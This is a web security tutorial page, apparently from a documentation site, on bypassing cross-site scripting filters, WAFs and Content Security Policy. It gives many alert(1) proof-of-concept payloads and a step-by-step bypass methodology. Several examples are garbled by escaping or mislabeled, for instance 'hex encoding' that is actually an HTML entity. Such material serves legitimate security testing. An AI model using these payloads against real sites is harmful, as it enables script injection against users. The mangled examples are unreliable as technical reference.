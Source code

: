 ```yaml
---
title: XSS Evasion Techniques
description: Advanced methods for bypassing XSS filters and security controls in web applications
---
```


# XSS Evasion Techniques

This guide covers advanced techniques for bypassing Cross-Site Scripting (XSS) filters and security controls. Understanding these evasion methods is essential for thorough security testing and for demonstrating the limitations of inadequate protection mechanisms.

## Understanding XSS Filters

Modern web applications implement various types of XSS protection:

- **Input validation**: Checking user input against allowed patterns
- **Output encoding**: Converting special characters to their HTML entity equivalents
- **Content Security Policy (CSP)**: Restricting which scripts can execute
- **WAF rules**: Web Application Firewalls that block suspicious patterns
- **Browser XSS filters**: Built-in protections in modern browsers

## Basic Evasion Techniques

### Case Variation

Many basic filters only check for lowercase versions of dangerous tags:

```html
\<ScRiPt\>alert(1)\</ScRiPt\>
```

### Tag Obfuscation

Bypass filters that look for specific tags:

```html
\<scr\<script\>ipt\>alert(1)\</scr\</script\>ipt\>
```

### Attribute Splitting

Evade filters that scan for complete attribute patterns:

```html
\<img o
n
error=alert(1) src=x\>
```

## Encoding-Based Evasion

### HTML Entity Encoding

Use HTML entities to bypass filters:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

### URL Encoding

Encode characters using URL encoding:

```html
%3Cscript%3Ealert(1)%3C%2Fscript%3E
```

### Unicode Encoding

Leverage Unicode encoding to hide malicious code:

```html
\<script\>\u0061lert(1)\</script\>
```

### Hex Encoding

Use hexadecimal encoding for evasion:

```html
\<script\>&#x61;lert(1)\</script\>
```

## Advanced Filter Bypass Techniques

### Non-Standard Tags and Events

Use lesser-known HTML tags and events:

```html
\<svg onload="alert(1)"\>
\<details ontoggle="alert(1)" open\>
```

### JavaScript Protocol Obfuscation

Obfuscate the JavaScript protocol in URLs:

```html
\<a href="javas&#99;ript:alert(1)"\>Click me\</a\>
```

### DOM Clobbering

Use HTML elements to override JavaScript objects:

```html
&lt;form id="test"&gt;&lt;input name="innerHTML" value="&lt;script&gt;alert(1)&lt;/script&gt;"&gt;&lt;/form&gt;
```

### Null Bytes

Insert null bytes to confuse parsers:

```html
&lt;scri%00pt&gt;alert(1)&lt;/script&gt;
```

## WAF Bypass Techniques

### Regex Evasion

Bypass regex-based filters:

```html
&lt;script&gt;/* */alert(1)/* */&lt;/script&gt;
```

### Parameter Pollution

Use duplicate parameters to confuse WAF logic:

```
?param&quot;safe&quot;&amp;param&quot;&lt;script&gt;alert(1)&lt;/script&gt;&quot;
```

### Fragmentation

Split attacks across multiple parameters:

```
?param1=&quot;&lt;img&quot;&amp;param2=&quot;src=\&quot;x\&quot;&quot;&amp;param3=&quot;onerror=\&quot;alert(1)\&quot;&quot;
```

## CSP Bypass Techniques

### JSONP Endpoints

Leverage JSONP endpoints to execute arbitrary code:

```html
&lt;script src=&quot;https://trusted-domain.com/jsonp?callback=alert(1)&quot;&gt;&lt;/script&gt;
```

### DOM-Based Bypasses

Use DOM manipulation to bypass CSP:

```javascript
location.href = 'javascript:alert(1)';
```

### Unsafe Inline Bypasses

Exploit unsafe-inline directives:

```html
&lt;script nonce=&quot;CSP-NONCE&quot;&gt;alert(1)&lt;/script&gt;
```

## Browser-Specific Bypasses

### Chrome XSS Auditor Bypasses

Techniques specific to Chrome's XSS protection:

```html
&lt;a href=&quot;'onclick=alert(1)//&quot;&gt;Click me&lt;/a&gt;
```

### Safari Bypasses

Techniques that work specifically in Safari:

```html
&lt;div id=&quot;x&quot;&gt;x&lt;/div&gt;&lt;script&gt;document.getElementById('x').innerHTML='&lt;img src=x onerror=alert(1)&gt;'&lt;/script&gt;
```

## Practical Evasion Methodology

### Filter Analysis

1. **Identify filtering mechanism**: Determine what type of filter is in place
2. **Test basic inputs**: Understand what triggers the filter
3. **Analyze responses**: Look for clues in error messages or behavior

### Bypass Development

1. **Start with known bypasses**: Try established techniques first
2. **Combine methods**: Use multiple evasion techniques together
3. **Iterate and refine**: Adjust your approach based on results

### Testing Framework

Develop a systematic approach:

1. **Create a baseline**: Establish what's being blocked
2. **Test variations**: Try different encoding and obfuscation methods
3. **Document successes**: Record which techniques work

## Next Steps

After mastering evasion techniques, explore:

- [Exploitation Strategies](/docs/xss/attack-techniques/exploitation-strategies) - Learn how to leverage XSS vulnerabilities
- [Identification Techniques](/docs/xss/attack-techniques/identification-techniques) - Review methods for finding XSS vulnerabilities
